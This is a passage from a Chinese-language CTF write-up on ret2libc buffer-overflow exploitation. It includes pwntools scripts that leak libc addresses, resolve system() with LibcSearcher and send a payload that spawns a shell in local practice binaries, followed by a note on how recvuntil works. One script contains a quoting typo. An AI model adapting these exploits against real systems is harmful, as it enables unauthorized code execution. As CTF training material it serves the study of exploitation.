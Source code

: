 ```
print "[*]leak libc addr: " + hex(libc.address)
print "[*]system addr: " + hex(system_addr)
print "[*]binsh addr: " + hex(binsh_addr)
print "--" * 20
print "[*]sending payload2 to getshell..."

payload2 = flat(["B" * 112, system_addr, "CCCC", binsh_addr])
sh.sendline(payload2)
sh.interactive()
```

### train.cs.nctu.edu.tw：ret2libc

这道题开启了 NX 保护，然而运行的时候会把 puts 的地址跟 /bin/sh 的地址告诉我们，使用 pwntools 可以把地址提取出来，再根据 libcsearcher 查出 system 的地址，这样就可以 getshell 了

exp：

```
from pwn import *
from LibcSearcher import LibcSearcher
p=process('./pwn')
p.recvuntil('is ')
bin_addr = int(p.recvuntil('\n), 16)
print hex(bin_addr)
p.recvuntil('is ')
puts_addr = int(p.recvuntil('\n'), 16)
print hex(puts_addr)
libc=LibcSearcher('puts',puts_addr)
libc_base=puts_addr-libc.dump('puts')
sys_addr=libc_base+libc.dump('system')
payload2='a'*32+p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(payload2)
p.interactive()
```

讲一下 `p.recvuntil('is ')` 代表的是 "is "之前的那一块，当下一个 recvuntil 的时候就会把这那块去掉了

把脚本里的第一个 `p.recvuntil('is ')` 替换成 

```
print p.recvuntil('of ')
print p.recvuntil('is ')
```

就可以看出来作用是什么

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574586037138-97e8c208-e876-48ca-b9cd-0a64d829175f.png)

ps.正常会输出这一些（"^C"是ctrl+c退出造成的，不包括）：



![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574586260374-add330e2-4491-4b46-9980-2f450c34faf6.png)

